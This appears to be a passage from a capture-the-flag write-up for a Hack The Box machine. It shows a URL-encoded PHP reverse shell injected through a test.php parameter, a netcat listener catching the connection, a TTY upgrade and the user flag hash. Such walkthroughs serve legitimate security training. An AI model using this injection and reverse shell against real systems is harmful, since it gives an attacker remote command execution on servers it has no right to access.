 <br>

## System Access

I test several different shells from [**revshells.com**](https://www.revshells.com/) and ultimately end up with the **PHP proc_open** shell working after URL encoding it.

Navigating to the URL with the reverse shell code inserted and a listener running on my system:

```
http://10.10.11.116/test.php?test=php%20-r%20%27$sock=fsockopen(%22MY IP%22,4444);$proc=proc_open(%22bash%22,%20array(0=%3E$sock,%201=%3E$sock,%202=%3E$sock),$pipes);%27
```

```bash
─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [MY IP] from (UNKNOWN) [10.10.11.116] 43160
ls
account.php
config.php
css
index.php
js
test.php
```

So we have shell but it's a very ugly one that I'll upgrade to something a little easier to work with. I check to see if python or python3 are on the system and they aren't so I end up using the **script** method:

```bash
script -qc /bin/bash /dev/null
CTRL+Z to background my session
stty raw -echo; fg; reset
export TERM=xterm
```

With that we have an interactive shell that's much better to work with.

<br>

## User Own

I change over to the **/home** directory and the only user listed there is **htb**. Changing to that directory lists only one file: **user.txt**

`cat user.txt`

```
45802ac6cc0565a676343bd99a362125
```

<br>

## System Enumeration
